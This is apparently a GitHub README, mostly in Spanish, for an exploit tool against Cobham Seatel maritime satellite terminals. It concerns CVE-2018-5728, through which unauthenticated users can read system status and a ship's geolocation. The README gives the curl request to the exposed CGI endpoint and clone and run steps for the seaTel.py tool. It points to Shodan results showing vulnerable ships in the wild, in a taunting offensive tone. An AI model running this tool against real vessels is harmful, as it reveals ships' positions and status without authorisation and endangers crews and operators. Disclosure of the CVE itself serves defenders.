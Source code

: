 # seatel_terminals
Las embarcaciones que ocupan la plataforma satelital Seatel (de la firma Cobham), cuenta con una serie de vulnerabilidades sobre los servicios de la misma terminal, que podría permitir fácilmente a terceros no autorizados entre otras cosas conocer su geolocalización.



#  [Tool] show DVR Credentiales

	[*] Exploit Title:      "Sensitive exposure from Seatel satellite terminal" 
	[*] CVE:                 CVE-2018-5728
	[*] CVSS Base Score v3:  7.1 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:F/RL:W/RC:C
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	
![seatel_home](img/home_sat.png) 

### Exploit:

```
	$> curl "http://<dvr_host>:<port>//cgi-bin/getSysStatus"

```
## In the Wild:
![seatel_dorks_0](img/shodan_poc_1.png) 


# TOOL: "Seatel exposed ship"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/seatel_terminals.git
	usr@pwn:~$ cd seatel_terminals
	Usr@pwn:~$ python seaTel.py --host <host>

## help

	usage: seaTel.py [-h] [-v] --host HOST [--port PORT]

	[+] Where are you ship ?

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port (default 80)

	usr@pwn:~$ python seaTel.py --host <host>


## Pocs (Output) :
![seatel_poc_4](img/poc_tool_1.png)
![seatel_poc_4](img/poc_tool_2.png)


### Blog:
https://misteralfa-hack.blogspot.com/2019/08/cobham-terminales-satelitales-seatel.html


I see you... ! xd